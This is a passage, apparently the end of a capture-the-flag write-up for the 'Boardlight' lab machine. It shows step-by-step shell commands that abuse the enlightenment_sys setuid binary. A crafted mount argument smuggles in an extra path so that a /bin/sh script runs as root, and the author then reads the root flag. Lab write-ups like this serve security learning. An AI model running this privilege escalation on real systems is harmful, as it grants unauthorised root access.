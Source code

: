 ![](/assets/images/Boardlight/Pasted%20image%2020240928110835.png)

I will replicate it and it works:

```bash
larissa@boardlight:/tmp$ mkdir -p /tmp/net
larissa@boardlight:/tmp$ mkdir -p "/dev/../tmp/;/tmp/exploit"
larissa@boardlight:/tmp$ echo "/bin/sh" > /tmp/exploit
larissa@boardlight:/tmp$ chmod a+x /tmp/exploit
larissa@boardlight:/tmp$ /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

Now I can see root.txt, which is available in root's home:

```bash
# cd /root
# ls
root.txt  snap
# cat root.txt
c1****************************ab
```

That's the machine guys. Hope you liked it!

{% endraw %}
